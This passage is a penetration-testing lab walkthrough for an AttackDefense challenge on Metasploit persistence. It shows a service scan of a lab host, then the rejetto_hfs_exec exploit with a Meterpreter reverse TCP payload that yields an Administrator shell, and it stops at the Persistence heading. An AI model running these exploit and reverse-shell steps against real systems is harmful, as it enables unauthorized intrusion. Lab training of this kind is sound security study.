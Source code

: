 > 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.185`
> - Metasploit **persistence** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.185
setg RHOST 10.2.20.185
workspace -a Persistence
db_nmap -sV 10.2.20.185
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence
